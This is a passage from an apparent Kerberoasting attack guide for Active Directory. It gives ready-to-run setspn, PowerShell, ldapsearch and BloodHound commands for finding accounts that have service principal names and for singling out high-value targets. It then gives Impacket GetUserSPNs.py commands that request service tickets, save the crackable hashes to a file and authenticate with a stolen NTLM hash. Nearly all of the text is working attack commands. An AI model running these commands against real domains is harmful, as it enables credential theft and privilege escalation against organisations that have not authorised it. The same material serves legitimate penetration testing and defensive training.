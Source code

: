 ## Discovery and Enumeration

### Finding SPNs with PowerShell
```powershell
# Find all SPNs in domain
setspn -T domain.local -Q */*

# Find SPNs for specific service types
setspn -T domain.local -Q MSSQLSvc/*
setspn -T domain.local -Q HTTP/*
setspn -T domain.local -Q HOST/*

# Using PowerShell Active Directory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

### LDAP Enumeration
```bash
# Using ldapsearch to find SPNs
ldapsearch -x -H ldap://dc.domain.local -D "user@domain.local" -w password -b "DC=domain,DC=local" "(&(objectClass=user)(servicePrincipalName=*))" servicePrincipalName sAMAccountName

# Find specific service types
ldapsearch -x -H ldap://dc.domain.local -D "user@domain.local" -w password -b "DC=domain,DC=local" "(&(objectClass=user)(servicePrincipalName=MSSQLSvc/*))" servicePrincipalName sAMAccountName
```

### BloodHound Enumeration
```bash
# BloodHound queries for Kerberoastable users
# Pre-built query: "Find all Kerberoastable Users"
MATCH (u:User {hasspn:true}) RETURN u.name, u.serviceprincipalnames

# Find Kerberoastable users with admin rights
MATCH (u:User {hasspn:true})-[:AdminTo]->(c:Computer) RETURN u.name, c.name

# Find high-value Kerberoastable targets
MATCH (u:User {hasspn:true, highvalue:true}) RETURN u.name
```

## Attack Tools and Techniques

### GetUserSPNs.py (Impacket)
```bash
# Basic SPN enumeration
GetUserSPNs.py domain.local/username:password -dc-ip dc_ip

# Request TGS tickets and save to file
GetUserSPNs.py domain.local/username:password -dc-ip dc_ip -request

# Save tickets in different formats
GetUserSPNs.py domain.local/username:password -dc-ip dc_ip -request -outputfile kerberoast_hashes.txt

# Use NTLM hash for authentication
GetUserSPNs.py -hashes :ntlm_hash domain.local/username -dc-ip dc_ip -request

# Target specific SPN
GetUserSPNs.py domain.local/username:password -dc-ip dc_ip -request-user target_service_account
```

